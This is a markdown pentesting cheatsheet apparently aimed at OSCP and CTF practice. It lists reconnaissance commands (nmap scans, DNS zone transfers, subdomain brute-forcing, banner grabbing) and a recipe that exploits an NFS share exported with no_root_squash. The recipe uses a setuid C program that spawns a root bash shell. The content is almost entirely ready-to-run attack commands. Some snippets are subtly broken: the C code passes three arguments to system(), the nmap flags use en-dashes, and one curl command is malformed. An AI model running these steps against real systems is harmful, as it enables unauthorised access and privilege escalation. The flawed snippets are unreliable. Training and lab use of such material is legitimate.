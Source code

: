 ```yaml
---
title: Pentesting Cheatsheets
author: Sachin
date: 2019-08-09 20:55:00 +0800
categories: [Pentesting, Cheatsheet]
tags: [Pentest, OSCP, CTF]
pin: true
---
```



## Reconnaissance / Enumeration

### Extracting Live IPs from Nmap Scan

```bash
nmap 10.1.1.1 --open -oG scan-results; cat scan-results | grep "/open" | cut -d " " -f 2 > exposed-services-ips
```

### Simple Port Knocking

```bash
for x in 7000 8000 9000; do nmap -Pn –host_timeout 201 –max-retries 0 -p $x 1.1.1.1; done
```

### DNS lookups, Zone Transfers & Brute-Force

```bash
whois domain.com
dig {a|txt|ns|mx} domain.com
dig {a|txt|ns|mx} domain.com @ns1.domain.com
host -t {a|txt|ns|mx} megacorpone.com
host -a megacorpone.com
host -l megacorpone.com ns1.megacorpone.com
dnsrecon -d megacorpone.com -t axfr @ns2.megacorpone.com
dnsenum domain.com
nslookup -> set type=any -> ls -d domain.com
for sub in $(cat subdomains.txt);do host $sub.domain.com|grep "has.address";done
```

### Banner Grabbing

```bash
nc -v $TARGET 80
telnet $TARGET 80
curl -vX $TARGET
```

### NFS Exported Shares

List NFS exported shares:

```bash
showmount -e 192.168.110.102
```

...and check if `'rw,no_root_squash'` is present. If it is present, compile the below `sid-shell.c`:

{% code title="sid-shell.c" %}
```cpp
#include <unistd.h>

main( int argc, char ** argv, char ** envp )
{
    setgid(0); setuid(0); system("/bin/bash", argv, envp);
    return 0;
}
```
{% endcode %}

...upload it to the share and execute the below to launch `sid-shell` to spawn a root shell:

```bash
chown root:root sid-shell; chmod +s sid-shell; ./sid-shell
```


This was inspired by and forked/adapted/updated from [ired team's Pentest Notes](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/tree/master/offensive-security-experiments/offensive-security-cheetsheets).
